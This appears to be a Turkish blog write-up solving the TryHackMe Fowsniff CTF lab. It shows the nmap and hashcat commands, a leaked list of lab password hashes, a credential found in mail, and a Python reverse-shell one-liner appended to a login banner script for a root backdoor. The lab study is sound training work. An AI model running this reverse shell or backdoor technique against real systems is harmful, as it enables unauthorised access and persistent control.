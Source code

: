 ```yaml
---
title: "TryHackme | Fowsniff CTF Write-Up"
date: 2022-05-06T00:09:00+03:00
draft: false
---
```


Bu içerik TryHackMe platformundaki Fowsniff CTF’inin çözümünü içerir. Çözmek isteyenler için: [https://tryhackme.com/room/ctf](https://tryhackme.com/room/ctf)


Port enumeration:

`nmap -vv -A -p- -sV -o nmap_output 10.10.218.240`

nmap sonucunda

- 22 ssh
- 80 http
- 110 pop3
- 143 imap

portlarının açık olduğunu görüyorum.

Hedef makine web site yayını yapıyor. Giriyorum ama kayda değer bir şey bulamıyorum.

dirb ile siteyi tarıyorum.

![Untitled](/img/Fowsniff%20CTF%20Write-Up%20a1924688797e455cbc2b1b402aa266c6/Untitled.png)

/security.txt’ye giriyorum.

![Untitled](/img/Fowsniff%20CTF%20Write-Up%20a1924688797e455cbc2b1b402aa266c6/Untitled%201.png)

Verilen ipucundan şirket çalışanlarının emaillerinin ve hashlerinin sızdırıldığı bilgilerin pastebin’de olduğunu görüyorum.

```
FOWSNIFF CORP PASSWORD LEAK
                ''~``
               ( o o )
    +-----.oooO--(_)--Oooo.------+
    |                            |
    |          FOWSNIFF          |
    |            got             |
    |           PWN3D!!!         |
    |                            |
    |       .oooO                |
    |        (   )   Oooo.       |
    +---------\ (----(   )-------+
               \_)    ) /
                     (_/
    FowSniff Corp got pwn3d by B1gN1nj4!
    No one is safe from my 1337 skillz!
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7eFowsniff 
Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =Pl8r n00bz!B1gN1nj4
```

Hash tipinin MD5 olduğunu biliyorum ve buna göre hashcat ile bruteforce yaparak seina’nın parolasını kırmaya çalışıyorum.

`hashcat -a 0 -m 0 "90dc16d47114aa13671c697fd506cf26" /usr/share/wordlists/rockyou.txt -vv`

- -a 0 —> attack türümüzün dictionary attack olduğunu belirtir.
- -m 0 —> kırılacak hash tipinin MD5 olduğunu belirtir.

Bu komut sonrası parolamız kırıldı.

![Untitled](/img/Fowsniff%20CTF%20Write-Up%20a1924688797e455cbc2b1b402aa266c6/Untitled%202.png)

Elimdeki user ve pass bilgileriyle, telnet ile 110. porttan makineye bağlanıyorum ve seina’nın maillerini görüntülüyorum.

![Untitled](/img/Fowsniff%20CTF%20Write-Up%20a1924688797e455cbc2b1b402aa266c6/Untitled%203.png)

Seina’nın SSH için kullandığı geçiçi parolayı görüyorum.

`S1ck3nBluff+secureshell`

Gönderenin kullanıcı adı ve bu şifreyle ssh bağlantısı yapıyorum.

`baksteen:S1ck3nBluff+secureshell`

![Untitled](/img/Fowsniff%20CTF%20Write-Up%20a1924688797e455cbc2b1b402aa266c6/Untitled%204.png)

![Untitled](/img/Fowsniff%20CTF%20Write-Up%20a1924688797e455cbc2b1b402aa266c6/Untitled%205.png)

baksteen kullanıcısı users grubuna dahil. users grubunun çalıştıracağı dosyaları listelediğimde karşıma [cube.sh](http://cube.sh) çıkıyor.

[cube.sh](http://cube.sh)’ı nano ile açtığımda bir şey dikkatimi çekiyor.

![Untitled](/img/Fowsniff%20CTF%20Write-Up%20a1924688797e455cbc2b1b402aa266c6/Untitled%206.png)

Bu banner ssh’a bağlandığımızda karşımıza çıkan banner. Yani buradan ssh ilk açıldığında bu dosyanın çağrıldığını anlıyorum. Bu dosyanın içeriğini reverse_shell bir betik ile değiştirerek bir root olarak çalışacak backdoor oluşturabilirim.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’
```

[cube.sh](http://cube.sh) dosyasına bu satırı ekledikten sonra ssh bağlantısını kapatıyorum.

Çalışacak olan betiğin geleceği port 1234 ve 1234 portunu dinliyorum.

![Untitled](/img/Fowsniff%20CTF%20Write-Up%20a1924688797e455cbc2b1b402aa266c6/Untitled%207.png)

Makineye ssh ile bir kez daha bağlanıyorum ve script çalışıyor.

![Untitled](/img/Fowsniff%20CTF%20Write-Up%20a1924688797e455cbc2b1b402aa266c6/Untitled%208.png)

Yazdığım içeriği okuduğunuz için teşekkür ederim. İyi çalışmalar.
